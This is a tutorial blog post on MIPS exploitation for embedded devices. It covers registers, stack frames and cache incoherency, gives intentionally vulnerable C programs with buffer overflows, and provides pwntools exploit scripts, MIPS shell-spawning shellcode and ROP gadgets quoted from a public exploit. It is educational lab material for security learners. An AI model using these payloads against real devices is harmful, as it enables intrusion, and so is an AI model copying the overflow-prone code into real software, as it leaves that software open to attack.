





[Research] Exploitation basic in MIPS (EN)
Hello! I’m newp1ayer48, the one in charge of the low-level at Hackyboiz! 🤸🏻♂️
When you get into embedded hacking, you encounter binaries and environments from various RISC architectures.
Most of the time, you’ll work with and see the ARM architecture. However, it’s also not uncommon to come across MIPS and MIPSEL architectures…
The assembly instructions and registers look unfamiliar from the start, and to top it off, you have to worry about the Cache…
Let’s cover the most fundamental aspects needed for exploitation in this somewhat alien MIPS environment!
1. MIPS vs MIPSEL
MIPS is one of the RISC architectures designed so that registers and instructions perform a single role. Although it has the disadvantage of having many registers, its instructions are simple, leading to low power consumption, which is why it’s primarily used in embedded devices.
Because the MIPS instruction set is so cleanly organized, it’s often the architecture taught in university computer architecture courses (that was the case for me)…
MIPS is big-endian, while MIPSEL is little-endian. MIPSEL only adopts the little-endian data storage format, so it operates in the same way as MIPS. Since the commonly used x86-64 architecture also uses this data storage method, you can use pwntools functions in the same way for MIPSEL. Therefore, in a MIPSEL environment, you can use pwntools’ p32() and p64() functions as they are!
2. MIPS Stack & Register
Before we dive into exploitation, it’s necessary to understand the stack structure and behavior in a MIPS environment.
The official references for the MIPS architecture are MIPS32 Architecture For Programmers Volume I and the MIPS Assembly Language Programmer’s Guide.
From these, let’s cover the knowledge we need from an exploitation perspective. First, here is a list of registers used in MIPS and their roles.
| 이름 | 레지스터 번호 | 역할 |
|---|---|---|
$zero |
$0 |
Always returns 0 |
$at |
$1 |
Reserved for assembler to calculate pseudo-instructions |
$v0 ~ $v1 |
$2 ~ $3 |
Stores values returned from functions |
$a0 ~ $a3 |
$4 ~ $7 |
Stores function arguments |
$t0 ~ $t7 |
$8 ~ $15 |
Used for temporary value storage by the assembler or language |
$s0 ~ $s7 |
$16 ~ $23 |
Used to store long-lasting values (callee-saved) |
$t8 ~ $t9 |
$24 ~ $25 |
Used for temporary value storage by the assembler or language |
$k0 ~ $k1 |
$26 ~ $27 |
Reserved for the OS kernel |
$gp |
$28 |
Stores the value of the global pointer |
$sp |
$29 |
Stores the value of the stack pointer |
$fp/$s8 |
$30 |
Stores the value of the frame pointer |
$ra |
$31 |
Stores the return address |
The registers to pay close attention to are $ra, $sp, and $s8.
In MIPS, the $ra register holds the function’s return address. It’s helpful to think of it as serving the role of RET in x86/x64.
0x00400734 <main+0>: addiu sp,sp,-136
0x00400738 <main+4>: sw ra,132(sp)
0x0040073c <main+8>: sw s8,128(sp)
0x00400740 <main+12>: move s8,sp
...
0x004007d8 <main+164>: move sp,s8
0x004007dc <main+168>: lw ra,132(sp)
0x004007e0 <main+172>: lw s8,128(sp)
0x004007e4 <main+176>: addiu sp,sp,136
0x004007e8 <main+180>: jr raThe structure works by saving the return address from the $ra register onto the stack during the function prologue and then jumping to the return address in the $ra register during the function epilogue.
The $ra register’s value is saved to the stack relative to the $sp (current stack pointer) and $s8 (frame pointer). Therefore, the first step in stack-based exploitation is to calculate the offset by determining the buffer’s starting position and the return address’s location relative to the $sp register.
lw $s2, 24(sp) ; Load value at sp+24 into $s2 (address of &"/bin/sh")
lw $s1, 20(sp) ; Load value at sp+20 into $s1 (address of &system)
lw $s0, 16(sp) ; Load value at sp+16 into $s0 (address of &sleep)
lw $ra, 28(sp) ; Load value at sp+28 into $ra (address of the next gadget)
addiu sp, sp, 32 ; Clean up the stack pointer
jr $ra ; Jump to $ra (the next gadget)The gadget form needed for the Shellcode and ROP chains, which will be explained later, is shown above.
The most basic form involves loading values from the stack into the $s0-$s7 registers using the lw instruction, cleaning up the stack pointer with addiu, and then jumping to the return address with jr.
Since this is the most basic form, you can combine the necessary arguments and instructions to fit the specific situation and environment.
move $t9, $s1 ; Move $s1 (system address) to $t9 (register for calls)
jalr $t9 ; Jump to the address in $t9Function execution is performed via the jalr instruction. You can understand it as working like the call instruction in x86-64.
3. Cache Incoherency
When exploiting a real device configured with a MIPS environment, you’ll sometimes need to use shellcode due to the nature of IoT/embedded devices. However, there’s a crucial point to be aware of when using shellcode in a MIPS environment.
That is the Cache.

MIPS uses two types of caches: the Instruction Cache, which holds opcodes, and the Data Cache, which records data.
The problem, known as Cache Incoherency, occurs because the value we input (our shellcode) goes into the Data Cache, but the CPU tries to execute instructions from the existing Instruction Cache.
To solve this, we need to bring the data from the Data Cache to the Instruction Cache. This process, depending on the cache write policy, involves synchronizing with memory and then invalidating the Instruction Cache. The important part here is that we need to flush the Data Cache to force a cache write.

The state of memory and the caches after the Data Cache has been flushed is shown above. Since the instructions in the Instruction Cache and memory are no longer identical, the Instruction Cache is invalidated. Then, the code from the Data Cache, now synchronized with memory, is executed.
Only by going through this process can we create a flow where the shellcode we’ve inserted can actually be executed.

The easiest way to achieve this is by calling the sleep() function.
When sleep() is called, execution is passed to another process or thread, causing other data to be generated in the Data Cache. Later, according to the cache write policy, a flush occurs, and the data residing in memory is also written to the Data Cache.
Therefore, if you’re using shellcode in a MIPS environment, it’s a good practice to structure your exploit by calling sleep().
4. MIPS Exploit Practice
Let’s practice exploitation in a MIPS environment with a simple example.
4-1: RTL
#include <stdio.h>
#include <stdlib.h>
void target()
{
system("/bin/sh");
}
int main(int argc, char *argv[])
{
setvbuf(stdout, NULL, _IONBF, 0);
char buf[100];
scanf("%s", buf);
printf("%s\n", buf);
return 0;
}We’ll practice finding the stack offset using a basic RTL in a MIPS environment. This example code creates a vulnerable function where a buffer overflow occurs.
0x00400738 <main+4>: sw ra,132(sp) ; ret
0x0040073c <main+8>: sw s8,128(sp)
0x00400740 <main+12>: move s8,sp
...
0x0040079c <main+104>: addiu v0,s8,24 ; buf
0x004007a0 <main+108>: move a1,v0
...
0x004007b0 <main+124>: jalr t9 ; scanfBy checking the assembly with gdb, we can find the following offsets:
Return address: sp + 132
We can see that the value in the $ra register, which holds the return address, is stored at sp+132.Buffer start: sp + 24
We can see that the argument for scanf() involves the operation s8 + 24 (and s8 was set to sp).
Therefore, the offset is 132 - 24 = 108.
from pwn import *
p = remote("localhost", 3312)
sh = 0x4006e0
pay = b"A" * 108
pay += p32(sh)
p.sendline(pay)
p.interactive()
After writing the exploit code with the correct offset and running it, we can confirm that it works perfectly.
4-2: shellcode
#include <stdio.h>
#include <stdlib.h>
int main()
{
setvbuf(stdout, NULL, _IONBF, 0);
sleep(1);
char buf[100];
printf("buf: %p\n", buf);
scanf("%s", buf);
printf("%s\n", buf);
return 0;
}This is an example of using shellcode while considering the Cache Incoherency issue in MIPS that we discussed earlier. This is also a buffer overflow vulnerable code, built with NX disabled.
The return address offset is the same as in the previous problem.

Additionally, I used an address within __libc_csu_init for the stack-cleaning gadget.
from pwn import *
import time
p = remote("localhost", 3312)
sh = b"\x69\x6e\x02\x3c\x2f\x62\x42\x24\xec\xff\xa2\xaf\x73\x68\x03\x3c\x2f\x2f\x63\x24\xf0\xff\xa3\xaf\xf4\xff\xa0\xaf\xfc\xff\xa0\xaf\xfc\xff\xa6\x27\xec\xff\xa4\x27\xf8\xff\xa4\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24\x0c\x01\x01\x01"
sleep_addr = 0x00400970
gadget = 0x00400824
p.recvuntil(b"buf: ")
addr = int(p.recv(10), 16)
log.success("addr is {}".format(hex(addr)))
pay = sh
pay += b"A" * (108 - len(sh))
pay += p32(sleep_addr)
pay += p32(gadget)
pay += p32(addr)
time.sleep(1)
p.sendline(pay)
p.interactive()
The most basic approach is to call the sleep() function, followed by a stack-cleaning gadget, and then jump to the shellcode address. The shellcode is for MIPS.
In a real-world scenario, using shellcode would also require a libc base leak and gadget calls to invoke sleep(), which means you would be performing a ROP attack. You can refer to the link below!
https://www.exploit-db.com/exploits/48994
First ROP (sleep_gadget): 0x0004c974 + libc_base = 0x2ab2e974
0x0004c97c move t9, s0
0x0004c980 lw ra, (var_1ch)
0x0004c984 lw s0, (var_18h)
0x0004c988 addiu a0, zero, 2 ; arg1
0x0004c98c addiu a1, zero, 1 ; arg2
0x0004c990 move a2, zero
0x0004c994 jr t9
Second ROP (stack_gadget): 0x00039fa8 + libc_base = 0x2ab1bfa8
0x00039fa8 addiu s0, sp, 0x28
0x00039fac move a0, s3
0x00039fb0 move a1, s0
0x00039fb4 move t9, s1
0x00039fb8 jalr t9
Third ROP (call_gadget): 0x000406d8 + libc_base = 0x2ab226d8
0x000406d8 move t9, s0
0x000406dc jalr t9
payload = "A"*160 + sleep_addr + call_gadget + sleep_gadget + junk + stack_gadget + shellcode
Here are the ROP gadgets and payload section used in that link.
The first gadget is for setting up the arguments needed to use sleep(). The use of zero instead of 0 to initialize a register to zero is another characteristic feature of MIPS!
The second gadget is a stack-cleaning gadget, which can be easily found in functions like __libc_csu_init, as introduced in our earlier exercise.
Finally, you can see how a ROP chain is constructed along with a function call gadget.
Finally, for those who find it a bit difficult to practice in a MIPS environment and want to study with CTF problems, you can refer to the challenges below!
- Hack.lu 2019 - no_risc_no_future
- HackCTF - BabyMIPS
RISC architectures like MIPS are unfamiliar at first, but once you get used to the exploitation tips and tricks specific to the architecture’s characteristics, they seem quite manageable! I hope this has been of some help to those who are new to MIPS exploitation!
I’ll be back with another embedded topic next time! Thank you! 👋🏻

본 글은 CC BY-SA 4.0 라이선스로 배포됩니다. 공유 또는 변경 시 반드시 출처를 남겨주시기 바랍니다.